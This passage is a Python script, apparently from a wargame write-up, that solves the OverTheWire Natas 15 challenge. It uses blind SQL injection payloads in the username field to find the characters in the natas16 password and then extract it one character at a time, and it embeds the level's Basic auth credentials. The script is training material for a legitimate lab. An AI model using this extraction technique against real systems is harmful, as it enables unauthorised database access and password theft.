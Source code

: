 password = ''
# Our target URL
target = "http://natas15.natas.labs.overthewire.org"
headers = {
  'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101',
  'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==',
}


def send_query(query):
  payload = {'username': query}
  print("Payload: " + str(payload))
  response = requests.post(target + '/index.php?', data=payload, headers=headers)
  return response


r = requests.get(target, headers=headers)
if r.status_code != requests.codes.ok:
  raise ValueError('Couldn\'t connect to target :(')
else:
  print('Target reachable. Starting character parsing...')

# Get list of characters used so we don't have to iterate unnecessarily
print("Getting list of characters used...")
for c in allChars:
  print("Trying Character: " + c)
  resp = send_query('natas16" and password like "%s%s%s" #' % ("%", c, "%"))
  if 'exists' in str(resp.content):
    usedChars += c
    print("Character found: " + c)
print("Characters used: " + usedChars)

# Retrieve the password one char at a time
for i in range(1, 33):
  print("Testing password...")
  for c in usedChars:
    print("Trying Character: " + c)
    print("Password so far: " + password)
    resp = send_query('natas16" and ascii(substring((select password from users where username="natas16"),%d,1))=%s #' % (i, ord(c)))
    if 'exists' in str(resp.content):
      password += c
      break

print('Password: ' + password)
{% endhighlight %}